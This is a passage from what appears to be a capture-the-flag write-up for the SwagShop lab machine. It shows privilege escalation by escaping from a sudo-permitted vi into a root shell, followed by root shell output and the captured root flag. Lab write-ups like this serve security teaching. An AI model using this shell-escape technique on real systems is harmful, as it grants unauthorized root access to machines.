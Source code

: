 ```bash
sudo vi -c ':!/bin/sh' /dev/null
```

And we alter it as below commands:

```bash
sudo vi /var/www/html/evil.sh
:!/bin/sh
```

Excellent! we get root shell from sudo privileges escalation.

##### capture root.flag

```bash
id
whoami
ifconfig
cat /root/root.txt
```

![[SwagShop-13.png]]

```
:!/bin/sh
# id
uid=0(root) gid=0(root) groups=0(root)
# whoami
root
# ifconfig
ens160    Link encap:Ethernet  HWaddr 00:50:56:b9:4a:fe  
          inet addr:10.10.10.140  Bcast:10.10.10.255  Mask:255.255.255.0
          inet6 addr: dead:beef::250:56ff:feb9:4afe/64 Scope:Global
          inet6 addr: fe80::250:56ff:feb9:4afe/64 Scope:Link
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:2780 errors:0 dropped:0 overruns:0 frame:0
          TX packets:4070 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000 
          RX bytes:1006966 (1.0 MB)  TX bytes:926068 (926.0 KB)

lo        Link encap:Local Loopback  
          inet addr:127.0.0.1  Mask:255.0.0.0
          inet6 addr: ::1/128 Scope:Host
          UP LOOPBACK RUNNING  MTU:65536  Metric:1
          RX packets:190 errors:0 dropped:0 overruns:0 frame:0
          TX packets:190 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1 
          RX bytes:21728 (21.7 KB)  TX bytes:21728 (21.7 KB)

# cat /root/root.txt
55e23e6f13460fa799957a9548d23fac

```







